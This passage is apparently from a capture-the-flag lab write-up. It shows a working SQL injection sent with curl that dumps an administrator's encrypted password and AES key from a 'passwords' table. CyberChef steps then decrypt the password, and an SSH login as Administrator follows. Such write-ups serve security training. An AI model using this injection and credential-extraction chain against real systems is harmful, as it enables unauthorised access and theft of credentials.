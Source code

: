 
Getting the values of the columns of the table _passwords_:
```
curl http://127.0.0.1:1234/index.php -d "method=select&username=administrator' union select concat(account,':',password,':',aes_key) from bread.passwords-- -&table=passwords"
```
```
["aes_key"]=>
    string(75) "Administrator:H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=:k19D193j.<19391("
```

There is an encrypted password of the user _Administrator_ and the AES key to decrypt it.
The tool [CyberChef](https://gchq.github.io/CyberChef/) can be used to decrypt the password:
```
1. From Base64

2. AES Decrypt
- Key (Latin1): k19D193j.<19391(
- IV: 00000000000000000000000000000000
- Input: Raw
```

> [Recipe for decrypting the password](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0)

The decrypted password can be used to authenticate as _Administrator_ via SSH!
```
ssh Administrator@10.10.10.228
```
